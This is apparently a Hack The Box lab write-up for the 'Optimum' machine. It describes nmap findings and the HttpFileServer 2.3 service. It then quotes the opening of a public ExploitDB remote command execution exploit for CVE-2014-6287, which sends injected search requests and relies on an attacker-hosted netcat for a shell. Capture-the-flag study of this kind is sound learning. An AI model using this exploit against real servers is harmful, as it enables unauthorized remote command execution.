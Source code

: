 ## Initial Thoughts Based On Nmap Scanse

There isn't really a whole lot I am thinking about besides looking into `HTTP` on port `80` since that is the only service that seems to be open with a full and quick TCP Nmap scan. There is some pretty valuable information from the scan though which is the service that is running and the version. The service and version is `HttpFileServer httpd 2.3`. We also get some OS information which says it may be a Windows box. With this in mind, my initial thought is to simply navigate to the website and just manually enumerate the service. I will most likely begin trying to search on Google for "HttpFileServer 2.3 exploit" to see if there is already a proof of concept to exploit this service. If not, I will manually enumerate it and see if there is an attack vector that I can exploit and gain initial access onto the host.

## 80 - HTTP | Enumeration

Navigating to `10.10.10.8` the following web page is presented:



<p align="center">
  <img src="{{ site.github.url }}/images/htb/optimum/image-20210612104209807.png" />
</p>

Google searching for `HTTP File Server`, we start to understand that this is a free web server that is designed for publishing and sharing files. There are also a plethora of exploits available by searching up `HTTP File Server 2.3 exploit` on Google. The one I am going to use is the one from [ExploitDB](https://www.exploit-db.com/exploits/39161). 

```
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!


import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

```